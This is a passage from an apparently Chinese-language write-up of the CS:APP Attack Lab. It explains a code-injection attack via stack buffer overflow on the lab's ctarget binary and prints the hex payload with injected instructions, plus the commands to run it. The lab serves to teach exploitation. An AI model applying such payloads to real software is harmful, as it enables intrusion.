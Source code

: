 
这样，在执行 getbuf 的 return 语句时，PC 指向 0x5561dc78，即注入代码的起始地址。在注入代码中，设置 %rdi 为 cookie，返回时控制将转移到 touch2。

因此编写 exploit.12.txt：

```txt
bf fa 97 b9 59 68 ec 17
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /* 0x5561dc78 <injected code> */
```



#### 运行结果

执行命令 `./hex2raw < exploit.12.txt > exploit-raw.12.txt`，`./ctarget -q < exploit-raw.12.txt`。

<img src="https://gitee.com/dq-agj/imags/raw/master/img/image-20230817180825836.png" alt="image-20230817180825836" style="zoom:80%;" />



#### 一种错误做法

注意：须在攻击代码中设置返回地址为 touch2，如果想在 exploit-raw.12.txt 中设置，可能会想要执行到 getbuf 时的栈空间状态如下：

<table border="1" style="width:30%; text-align:center; margin:auto">
    <tr height="40">
        <td><b>栈</b></td>
        <td colspan="2"><b>栈地址</b></td>
    </tr>
    <tr height="40">
        <td colspan="2">0x5561dc78</td>
        <td>0x5561dca0</td>
    </tr>
    <tr height="40">
        <td colspan="2">0x4017ec</td>
        <td>0x5561dc98</td>
    </tr>
    <tr height="40">
        <td colspan="2">0</td>
        <td>0x5561dc90</td>
    </tr>
    <tr height="40">
        <td colspan="2">0</td>
        <td>0x5561dc88</td>
    </tr>
    <tr height="40">
        <td colspan="2">0xc359</td>
        <td>0x5561dc80</td>
    </tr>
    <tr height="40">
        <td colspan="2">0xb997fabf10ec8348</td>
        <td>0x5561dc78 %rsp</td>
    </tr>
</table>
